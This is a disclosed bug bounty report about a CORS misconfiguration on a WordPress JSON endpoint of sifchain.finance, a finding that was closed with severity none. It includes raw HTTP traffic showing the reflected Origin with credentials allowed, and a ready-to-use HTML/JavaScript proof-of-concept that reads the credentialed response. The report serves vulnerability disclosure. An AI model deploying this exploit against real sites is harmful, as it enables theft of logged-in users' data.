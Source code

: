 # CORS Misconfiguration

## Report Details
- **Report ID**: 1194280
- **URL**: https://hackerone.com/reports/1194280
- **State**: Closed
- **Severity**: none
- **Submitted**: 2021-05-12T16:52:34.070Z
- **Disclosed**: 2021-05-12T18:01:22.465Z

## Reporter
- **Username**: itsme_ani
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: sifchain

## Vulnerability Information
Summary:
An cross-origin resource sharing (CORS) policy controls whether and how content running on other domains can perform two-way interaction with the domain that publishes the policy. The policy is fine-grained and can apply access controls per-request based on the URL and other features of the request. If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information.
This bug could be used to steal users information or force the user to execute unwanted actions. As long that a legit and logged in user is lure to access a attacker controlled HTML page.

Vulnerable URL:- https://sifchain.finance/wp-json 

CORS misconfiguration is found on https://sifchain.finance/wp-json   as "Access-Control-Allow-Origin" is dynamically fetched from client Origin header with "Credentials" set as true.

Steps To Reproduce:
Step 1:
Request
GET /wp-json HTTP/1.1
Host: sifchain.finance
Origin: https://bing.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

Response:-
HTTP/1.1 200 OK
Date: Wed, 12 May 2021 16:38:05 GMT
Content-Type: application/json; charset=UTF-8
Connection: close
Strict-Transport-Security: max-age=15552000; includeSubDomains
Vary: Accept-Encoding
X-hacker: If you're reading this, you should visit automattic.com/jobs and apply to join the fun, mention this header.
Host-Header: WordPress.com
X-Robots-Tag: noindex
Link: <https://sifchain.finance/wp-json/>; rel="https://api.w.org/"
X-Content-Type-Options: nosniff
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
Allow: GET
Access-Control-Allow-Origin: https://bing.com
Access-Control-Allow-Methods: OPTIONS, GET, POST, PUT, PATCH, DELETE
Access-Control-Allow-Credentials: true
Vary: Origin
X-ac: 3.bom _atomic_dca
CF-Cache-Status: DYNAMIC
cf-request-id: 0a030a5f8b00006985c9185000000001
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 64e51345ae9e6985-BOM
Content-Length: 243085

Note: Take note from request I inject a header Origin: https://bing.com then from response it returns Access-Control-Allow-Origin:  https://bing.com. Which mean there is CORS misconfig here (refer screenshot attached).

Step 2: Exploiting CORS misconfiguration.
1) open https://sifchain.finance/wp-json  in browser then inspect the page and go to console. Run the following code in console and you would find it pops up user information or Open above code in any browser and you would find it pops up user information like the attachment. (Refer Attachment)

<!DOCTYPE html>
<html>
<body>
<center>
<h2>CORS POC Exploit</h2>
<h3>Extract SID</h3>

<div id="demo">
<button type="button" onclick="cors()">Exploit Click here</button>
</div>

<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
document.getElementById("demo").innerHTML = alert(this.responseText);
}
};
xhttp.open("GET", "https://sifchain.finance/wp-json/", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script>

</body>
</html>

Reference Reports:- https://hackerone.com/reports/426165

## Impact

Attacker would treat many victims to visit attacker's website, if victim is logged in, then his personal information is recorded in attacker's server.
If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information. Even if it does not, attackers may be able to bypass any IP-based access controls by proxying through users' browsers.

## Attachments
- 2.png
- 1.png
- 3.png
- 4.png
